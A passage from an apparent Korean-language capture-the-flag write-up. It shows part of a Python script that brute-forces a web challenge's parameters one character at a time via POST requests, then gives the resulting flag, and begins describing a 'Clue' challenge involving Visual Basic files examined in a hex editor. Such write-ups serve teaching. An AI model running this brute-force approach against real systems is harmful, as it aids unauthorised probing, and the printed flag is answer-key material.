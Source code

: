 ```python
                r = requests.post(query) 
        except:
                continue
        if '</code><hr>stage5' in r.text:
                c_3 += chr(i)
hint = ""
A = ""
for i in range(48, 127):
        try:
                query = url + "a=" + a + "&b=" + b + "&c=" + c_3 + "&A=" + chr(i)
                r = requests.post(query)
        except:
                continue
        if '</code><hr>stage6' in r.text:
                hint = r.text.split('</code><hr>stage6<!--Hint: ')[1]
                print "[+] Hint :", hint
                A += chr(i)

print "[+] End"
```

이 코드를 실행 시킬 때 마다 플래그가 조금 씩 나타나고, 여러 번 실행 시켜서 조합하면 전체 플래그를 얻을 수 있다.  

```
FLAG : POX{kong_wanted_to_make_problem_xD_flag_will_be_long_long?_wrong_:p}
```

### Clue  

이 문제에서는 파일 3개가 주어졌다.  

* clue.bas  
* clue.frm  
* clue.frx  

그 중 `clue.bas`랑 `clue.frm`은 `Excel`로 열 수 있었는데, `clue.frx`는 안됬다.  

그래서 뭔가 읽을 수 있는 문자를 찾을 수 있지 않을까 하면서 `HxD`로 열어 봤더니 아래와 같았다.  
